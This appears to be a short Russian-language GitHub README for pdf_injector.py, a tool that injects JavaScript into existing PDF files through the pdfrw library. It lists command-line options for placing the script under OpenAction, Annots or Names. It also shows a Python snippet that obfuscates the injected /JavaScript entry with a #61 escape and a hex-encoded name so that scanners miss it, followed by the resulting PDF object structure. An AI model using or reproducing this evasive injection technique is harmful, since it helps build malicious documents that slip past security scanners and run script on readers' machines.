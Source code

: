 # Inject-JavaScript-via-PDFrw-example

- Запуск с параметрами по умолчанию:

`pdf_injector.py path/to/orig.pdf`

- Все параметры:

`        pdf_injector.py path/to/orig.pdf
        -n      ScriptName
        -o      path/to/out.pdf
        ( -S      path/to/script | 
        -s      someJSScript() )
        -i      [OpenAction | Annots | Names]`

- Пример действия в ветке Names с обфускацией:

```
names = IndirectPdfDict(**{"J#61vaScript": IndirectPdfDict(
        Names=[PdfString(script_name), IndirectPdfDict(JS=PdfString(script_code), S=PdfName('4A617661536372697074'))]
        )})
```

- Результат:

`/Names (Indirect Dict 1)` --> 

(Indirect Dict 1)

`<</J#61vaScript (Indirect Dict 2)>>` --> 

(Indirect Dict 2)

`<< /Names [(script_name), (Indirect Dict 3)` -->

(Indirect Dict 3)

`<< /JS: (script_code;), /S: /4A617661536372697074>>]>>`
